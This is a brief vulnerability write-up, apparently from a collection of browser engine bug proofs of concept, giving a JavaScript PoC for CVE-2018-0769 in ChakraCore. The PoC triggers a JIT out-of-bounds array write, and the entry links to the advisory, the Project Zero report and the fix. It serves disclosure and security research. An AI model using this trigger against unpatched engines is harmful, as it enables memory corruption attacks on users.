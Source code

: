 # CVE-2018-0769

- Fix: Jan 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt(arr) {
    if (arr.length <= 15)
        return;

    let j = 0;
    for (let i = 0; i < 2; i++) {
        arr[j] = 0x1234;  // (a)
        j += 0x100000;
        j + 0x7ffffff0;
    }
}

function main() {
    for (let i = 0; i < 0x10000; i++) {
        opt(new Uint32Array(100));
    }
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-0769)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1390)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/0ea8624124f86815a9e210dddfbff1cb3fe50670)